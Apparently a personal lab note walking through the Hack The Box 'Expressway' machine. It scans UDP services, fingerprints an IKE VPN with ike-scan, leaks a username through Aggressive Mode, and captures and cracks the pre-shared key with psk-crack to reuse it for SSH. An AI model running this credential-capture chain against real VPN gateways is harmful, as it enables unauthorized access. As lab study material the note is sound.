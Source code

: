 
2025-10-25 18:40

Source: #htb #Boot2root 

Tags: 
### Enumeration 

Rustscan only shows port 22 open, When TCP fails, we turn to its connectionless counterpart, UDP.

```sh
udpx -t 10.129.13.112 -c 128 -w 1000 
```
- `-c`: Concurrency level
- `-w`: Wait time in milliseconds

----
UDP scan w [[nmap]]

```sh
nmap -sU -p 68,69,500,4500 -sV --script=ike-version,tftp-enum,broadcast-dhcp-discover -Pn --max-retries 3 --host-timeout 5m 10.10.11.87
```

o/p of UDP scan 
68  open  dhcpc
69  open  tftp
500  open  isakmp
#### Fingerprinting IKE

`ike-scan` - It crafts [[Internet Key Exchange]] packets to fingerprint the VPN gateway and elicit responses that can reveal its configuration, identity, and vulnerabilities.

**Initial Probe (Main Mode):**

```sh
sudo ike-scan expressway.htb
```

**Response:**

```sh
Starting ike-scan 1.9.6 with 1 hosts ([http://www.nta-monitor.com/tools/ike-scan/](http://www.nta-monitor.com/tools/ike-scan/))
10.129.13.112  Main Mode Handshake returned HDR=(CKY-R=1d432c635a2e8d64...)
        SA=(Enc=3DES-CBC Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
```

Response Breakdown:
- **Main Mode Handshake:** The server responded in Main Mode, which is more secure as it protects peer identities.
- **Weak Cryptography:** It supports `3DES` (a legacy, weak cipher), `SHA1` (no longer considered secure), and `Group=2:modp1024` (a weak Diffie-Hellman group susceptible to precomputation attacks).
- **Auth=PSK:** Authentication is done via a **Pre-Shared Key**. This is the secret we need to find.

**Aggressive mode scan** 

IKEv1’s Main Mode uses six messages to protect identities. However, Aggressive Mode cuts this down to three messages for a faster connection, but at the cost of sending the initiator and responder’s identities in the clear. If the server supports it, we can force it into this mode to leak valuable information.

```sh
sudo ike-scan -A expressway.htb
```

The server supports Aggressive Mode and leaked an identity: a Fully Qualified Domain Name of a user, `ike@expressway.htb`. This gives us a valid username.

Now we have a username (`ike`) and know the authentication method is a PSK. The final step is to capture the authentication hash from the Aggressive Mode exchange and crack the PSK offline.
#### Capturing the hash 

`ike-scan` can automatically format the necessary data for cracking with its sister tool, `psk-crack`.

```sh
sudo ike-scan -A expressway.htb --id=ike@expressway.htb -Pike.psk
```
above cmd created a ike.psk 

```sh
psk-crack -d /usr/share/wordlists/rockyou.txt ike.psk
```

reuse these new found creds for ssh access
### Privilege Escalation 






### References
https://app.hackthebox.com/machines/736

https://www.isdadev.at/posts/htb-expressway-writeup/
https://thecybersecguru.com/ctf-walkthroughs/mastering-expressway-beginners-guide-from-hackthebox/

IKE Enum - https://routezero.security/2025/04/06/ike-cheat-sheet-for-pentration-testers/